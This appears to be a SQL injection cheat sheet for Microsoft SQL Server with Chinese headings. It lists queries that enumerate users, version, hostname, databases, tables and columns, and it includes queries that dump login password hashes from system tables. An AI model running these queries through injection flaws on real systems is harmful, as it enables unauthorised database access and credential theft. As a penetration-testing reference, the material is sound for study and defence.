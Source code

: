   ##### 注释符
  	-- 注释
	/* 注释 */
  ##### 用户
  	SELECT CURRENT_USER
	SELECT user_name();
	SELECT system_user;
	SELECT user;
  ##### 版本
  	SELECT @@version
  ##### 主机名
  	SELECT HOST_NAME()
	SELECT @@hostname;
  ##### 数据库名
  	SELECT DB_NAME()
  ##### 列数据库
  SELECT name FROM master..sysdatabases;
	SELECT DB_NAME(N); — for N = 0, 1, 2, …
	SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- Change delimeter value such as ', ' to anything else you want => master, tempdb, model, msdb   (Only works in MSSQL 2017+)
  ##### 列表
  	SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
	SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
	SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

	SELECT table_catalog, table_name FROM information_schema.columns
	SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- Change delimeter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
  ##### 列字段
  	SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
	SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

	SELECT table_catalog, column_name FROM information_schema.columns
  ##### 导出用户和密码
	MSSQL 2000:
	SELECT name, password FROM master..sysxlogins
	SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

	MSSQL 2005
	SELECT name, password_hash FROM master.sys.sql_logins
	SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
  ##### 联合查询
	列出数据库
	$ SELECT name FROM master..sysdatabases
	[*] Injection
	[*] msdb
	[*] tempdb

